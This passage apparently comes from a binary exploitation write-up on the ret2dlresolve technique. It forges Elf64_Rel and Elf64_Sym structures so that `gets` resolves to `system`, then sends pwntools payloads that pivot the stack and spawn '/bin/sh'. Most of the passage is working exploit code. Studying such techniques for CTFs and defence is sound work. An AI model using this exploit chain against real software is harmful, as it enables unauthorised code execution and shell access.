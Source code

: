 For the fake Elf64_Rel we need to provide:

 * The entry on the GOT table we want to replace with our function address, in our case, `gets` but it could be any address. 
   We will talk later about why to replace an existing function.

 * The index of our fake Elf64_Sym. Also, we need to set the type to 7 (R_X86_64_JUMP_SLOT)

Finally, we need to calculate the index that we need to provide `_dl_resolve` so it points to this fake Elf64_Rel structure.


```python
fake_rel_entry_offset = p64(elf.got['gets']) # Replace gets
# Calculation would be ELF64_SYM_LIST + index * sizeof(Elf64_Sym), being the size 24
assert((SYM_ENTRY_ADDRESS - ELF64_SYM_LIST) % 24 == 0) # We need to assert the address is divisible by Elf64_Sym size (24)
index = int((SYM_ENTRY_ADDRESS - ELF64_SYM_LIST) / 24)
fake_rel_entry_info = p64((index << 32) | 0x7)
fake_rel_entry = fake_rel_entry_offset + fake_rel_entry_info
rel_offset = REL_ENTRY_ADDRESS - ELF64_REL_LIST
...
rel_offset = int(rel_offset / 24)
```

### Prepare fake Elf64_Sym entry

The Elf64_Sym is simpler. All we need to set is the offset of our string `system`.

`fake_sym_entry = p64(STRING_ADDRESS - FUNCTION_NAMES_LIST) + p64(0x00)`

### Launching dl_resolve

Now that we are ready, let's send the exploit.

1. Pivot the stack to where we are placing all the structures.

```python
p.recvuntil(b'xx')
p.sendline(b'A' * 0x10 + p64(PIVOTED_STACK) + p64(elf.symbols['main'] + 12))
p.info(f'Stack pivoting performed to {hex(PIVOTED_STACK)}')
```

2. Send the structures alongside with the string.

```python
p.recvuntil(b'xx')
exploit =  p64(0x00)
exploit += p64(0x00)
exploit += p64(FINAL_STACK) # The resolve functions will use a lot of memory, we need as much room as we can get.
exploit += p64(elf.symbols['main'] + 12)
exploit += b"system\x00\x00"
exploit += p64(0x00)
exploit += fake_sym_entry
exploit += fake_rel_entry 
exploit += b'/bin/sh\x00'
p.sendline(exploit)
p.info('[O] Structures set')
```
